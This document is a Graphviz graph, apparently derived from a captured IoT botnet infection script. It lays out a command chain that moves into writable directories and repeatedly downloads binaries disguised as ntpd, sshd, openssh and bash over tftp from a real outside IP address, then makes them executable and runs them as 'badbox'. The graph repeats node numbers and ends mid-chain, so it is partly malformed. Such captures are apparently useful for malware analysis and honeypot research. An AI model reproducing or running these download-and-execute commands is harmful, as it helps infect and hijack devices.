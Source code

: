 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 14 [label="||,"];
14 [label="tftp -r ntpd -g 107.178.98.206 "];
14 -> 16 [label=";,"];
16 [label="cat ntpd badbox "];
16 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 34 [label="||,"];
34 [label="tftp -r sshd -g 107.178.98.206 "];
34 -> 36 [label=";,"];
36 [label="cat sshd badbox "];
36 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 54 [label="||,"];
54 [label="tftp -r openssh -g 107.178.98.206 "];
54 -> 56 [label=";,"];
56 [label="cat openssh badbox "];
56 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 74 [label="||,"];
74 [label="tftp -r bash -g 107.178.98.206 "];
74 -> 75 [label=";,"];
}
